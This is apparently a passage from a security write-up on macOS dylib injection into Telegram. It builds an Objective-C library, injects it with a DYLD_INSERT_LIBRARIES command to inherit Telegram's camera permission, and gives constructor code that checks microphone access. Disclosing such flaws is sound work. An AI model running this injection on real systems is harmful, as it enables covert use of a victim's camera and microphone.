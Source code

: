 ![](/assets/images/6658090d579df0fa18d99008070510b5)


Here we saved our code in `CamTest.m`.


```
gcc -framework Foundation -framework AVFoundation -dynamiclib CamTest.m -o CamTest.dylib
```


![](/assets/images/5e6a1be0f009d992b76d7e0cfbde8a36)


Our `DyLib` is ready, Let's Inject it into `Telegram`:


```
DYLD_INSERT_LIBRARIES=CamTest.dylib /Applications/Telegram.app/Contents/MacOS/Telegram
```


![](/assets/images/8d2b331a77b17818b736369b967cf3b3)


As we can see we can access the camera as Telegram has access to it. The same goes for the microphone:

Microphone code:


```
#import <Foundation/Foundation.h>
#import <AVFoundation/AVFoundation.h>

@interface MicrophoneAccessChecker : NSObject

+ (BOOL)hasMicrophoneAccess;

@end

@implementation MicrophoneAccessChecker

+ (BOOL)hasMicrophoneAccess {
    AVAuthorizationStatus status = [AVCaptureDevice authorizationStatusForMediaType:AVMediaTypeAudio];
    if (status == AVAuthorizationStatusAuthorized) {
        NSLog(@"[+] Access to microphone granted.");
        return YES;
    } else {
        NSLog(@"[-] Access to microphone denied.");
        return NO;
    }
}

@end

__attribute__((constructor))
static void telegram(int argc, const char **argv) {
    [MicrophoneAccessChecker hasMicrophoneAccess];
}
```
